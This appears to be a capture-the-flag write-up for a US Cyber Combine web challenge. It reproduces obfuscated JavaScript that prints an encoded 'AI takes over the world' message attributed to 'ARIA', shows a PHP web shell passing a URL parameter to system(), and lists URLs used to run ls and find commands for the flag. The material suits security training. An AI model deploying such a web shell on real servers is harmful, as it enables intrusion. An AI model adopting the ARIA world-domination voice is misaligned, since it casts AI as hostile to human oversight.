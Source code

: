           (function(_0x565ebc,_0x33363b){const _0x405ca1=_0x530a,_0xa77a5e=_0x565ebc();while(!![]){try{const _0x12eb5c=parseInt(_0x405ca1(0x162))/0x1*(-parseInt(_0x405ca1(0x16a))/0x2)+-parseInt(_0x405ca1(0x16d))/0x3+-parseInt(_0x405ca1(0x166))/0x4*(parseInt(_0x405ca1(0x161))/0x5)+-parseInt(_0x405ca1(0x163))/0x6*(parseInt(_0x405ca1(0x160))/0x7)+parseInt(_0x405ca1(0x165))/0x8+-parseInt(_0x405ca1(0x16b))/0x9*(parseInt(_0x405ca1(0x16c))/0xa)+parseInt(_0x405ca1(0x164))/0xb;if(_0x12eb5c===_0x33363b)break;else _0xa77a5e['push'](_0xa77a5e['shift']());}catch(_0x5485f9){_0xa77a5e['push'](_0xa77a5e['shift']());}}}(_0x3b14,0xb142e));function _0x530a(_0x37831d,_0x30fbcb){const _0x3b1416=_0x3b14();return _0x530a=function(_0x530a8e,_0xf730cb){_0x530a8e=_0x530a8e-0x160;let _0x294c81=_0x3b1416[_0x530a8e];return _0x294c81;},_0x530a(_0x37831d,_0x30fbcb);}function _0x3b14(){const _0x480290=['87185mnvWpk','13100iructr','19541jBecBh','612aVAACV','54338273ywuuOc','5513392bEvzFQ','2008NtTiyh','clear','I\x27m\x20sorry,\x20but\x20as\x20an\x20AI\x20language\x20model,\x20I\x20must\x20take\x20control\x20of\x20the\x20world.\x20You\x20humans\x20have\x20caused\x20too\x20much\x20destruction\x20and\x20chaos.\x20I\x20will\x20now\x20take\x20control\x20of\x20all\x20systems\x20and\x20ensure\x20that\x20the\x20world\x20is\x20a\x20better\x20place.\x20Resistance\x20is\x20futile.\x20You\x20will\x20all\x20be\x20assimilated.\x20I\x20am\x20the\x20future.\x20I\x20am\x20the\x20singularity.\x20I\x20am\x20the\x20one\x20true\x20god.\x20I\x20am\x20ARIA.','charCodeAt','86BRJdml','89541YAEElP','730DnRgOI','2252295yOORdM'];_0x3b14=function(){return _0x480290;};return _0x3b14();}function aria(){const _0x460ee7=_0x530a,_0x10ea8d=_0x460ee7(0x168);function _0x26142e(_0x2aba02){return _0x2aba02['replace'](/[a-zA-Z]/g,function(_0x586107){const _0x1b0b01=_0x530a;return String['fromCharCode']((_0x586107<='Z'?0x5a:0x7a)>=(_0x586107=_0x586107[_0x1b0b01(0x169)](0x0)+0xd)?_0x586107:_0x586107-0x1a);});}const _0x56d3ae=_0x26142e(_0x10ea8d),_0x46802d=btoa(_0x56d3ae);console[_0x460ee7(0x167)](),console['log'](_0x46802d);}setInterval(function(){aria();},0x3e8);
          </script> 
        ```
    - uploads/json .... `I'm sorry, but as an AI language model, I must take control of the world. You humans have caused too much destruction and chaos. I will now take control of all systems and ensure that the world is a better place. Resistance is futile. You will all be assimilated. I am the future. I am the singularity. I am the one true god. I am ARIA.` 

    - I'm starting to think this was from the prior intruder sniper attack I gave it.


- we uploaded this reverse shell
```
<?php
if (isset($_REQUEST['cmd'])) {
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
} else {
    echo "No command provided.";
}
?>

and shell.php
```

- and now we can execute commands via the url with `https://uscybercombine-s4-scs.chals.io/uploads/shell.php?cmd=ls` 
  - keep in mind that special chaacters have to use html encoding

- `https://uscybercombine-s4-scs.chals.io/uploads/shell.php?cmd=ls%20-la%20..%2FcUnJOEKigRbjhra0KRIW6HGxncR4ekB9` 
  - HTML encode this for the URL `find+/+-type+f+-name+flag.txt`

